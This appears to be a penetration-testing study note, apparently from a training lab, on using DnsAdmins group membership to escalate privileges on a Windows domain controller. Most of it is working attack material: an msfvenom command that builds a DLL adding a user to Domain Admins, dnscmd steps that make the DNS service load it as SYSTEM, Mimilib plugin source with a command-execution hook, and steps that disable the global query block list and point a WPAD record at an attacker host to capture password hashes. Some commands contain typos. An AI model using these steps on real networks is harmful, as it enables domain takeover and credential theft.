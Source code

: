 The Windows DNS service supports custom plugins and can call functions from them to 
resolve name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).

- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

- Download the DLL to the target
- Use the `dnscmd` utility to load a custom DLL with non-privileged user and...
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
( Access Denied )
```

- Only DnsAdmins are allowed to perform this, as expected. WHOOPS?
- We need to load this DLL as a DnsAdmin:
```
Get-ADGroupMember -Identity DnsAdmins
dnscmd.exe /config /serverlevelplugindll C:\Users\netadmn\Desktop\adduser.dll
```

Once the DLL is added we can either restart the DNS service if we have the rights or we would 
wait for a server restart.

Check our current user's permissions on the DNS Service.

##### Finding User's SID for the DNS Service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
sc stop dns
sc start dns
net group "Domain Admins" /dom
```

Here's an explaination of Security Descriptor Definition Language (SDDL) syntax:
https://academy.hackthebox.com/module/49/section/1016

## Cleaning Up For Our Customer
```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
					/v ServerLevelPluginDll
sc.exe start dns
sc query dns
```

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

Membership in this group gives us the rights to disable global-query blocking security, 
which will block this attack by default.

Server 2008 first introduced the ability to add to a global query block list on a DNS server.
By default, Web Proxy Automatic Discovery Protocol (WAPD) and Intra-site Automatic Tunneling
Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite
vulnerable to hijacking and any domain user can create a computer object or DNS record
containing those names.

After disabling the global query block list and creating a WPAD record, every machine running
WAPD with default settings will have it's traffic proxied through our attack machine.

We could use a tool like Responder or Inveigh to perform traffic spoofing and attempt to capture
password hashes and crack them offline, or perform an SMBRelay attack.

##### Disabling the Global Query Block List
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local 
	-ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

